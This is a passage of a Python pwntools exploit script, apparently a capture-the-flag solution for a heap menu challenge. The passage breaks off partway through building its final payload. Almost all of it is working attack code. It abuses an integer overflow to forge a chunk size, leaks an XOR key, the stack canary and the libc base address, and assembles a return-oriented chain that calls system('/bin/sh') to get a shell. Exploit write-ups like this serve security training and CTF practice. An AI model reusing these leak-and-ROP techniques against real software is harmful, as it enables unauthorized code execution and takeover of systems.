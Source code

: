 ```python 
    input()

def add(idx, size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Index: ', str(idx))
    p.sendlineafter(b'Size: ', str(size))
    p.sendafter(b'Data: ', data)

def edit(idx, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'Index: ', str(idx))
    p.recvuntil(b'Old data: ')
    output = p.recvuntil(b'\nNew data: ', drop = True)
    p.send(data)
    p.sendlineafter(b'[y/n]: ', b'y')
    return output

def delete(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'Index: ', str(idx))
    p.sendlineafter(b'[y/n]: ', b'y')

def lock_n_lock():
    p.sendlineafter(b'> ', b'4')


### leak key ###
GDB()
add(0, 0x80, b'a'*8)
add(1, 0x10, b'b'*8)
lock_n_lock() # encrypted null byte -> Key
delete(0)
add(0, 0x0000000800000080, b'a'*8) # IOF => fake size idx1 = 0x8 
key = u64(edit(1, b'c'*8)[8:])
print(hex(key))

### leak canary and libc ###
lock_n_lock()
delete(0)
add(0, 0x0000020000000080, b'a'*8) # IOF => fake size idx1 = 0x200 > 0x100(256)
edit(1, b'a'*8)
# lúc này memcpy sẽ lấy 0x100 byte gán vào idx 1, 0x100 byte sau (chứa canary , exe, libc) gán vào idx 2
add(2, 0x10, b'b'*0x10) # add idx 2
fake_canary = u64(edit(2, b'a' * 0x19)[0x10:])
canary = u64(edit(2, b'a' * 0x88)[0x18:0x20]) - 0x61
libc.address = u64(edit(2, b'a' * 0x88)[0x88:] + b'\0\0') - 0x23a90
print(hex(fake_canary))
print(hex(canary))
print(hex(libc.address))

### get shell ###
pop_rdi = libc.address + 0x00000000000240e5
ret = libc.address + 0x0000000000022fd9

payload = flat(
    fake_canary ^ key,
    canary ^ key,
    key,
    pop_rdi + 1 ^ key,
    pop_rdi ^ key,
    next(libc.search(b'/bin/sh'))^ key,
    libc.sym.system ^ key,
```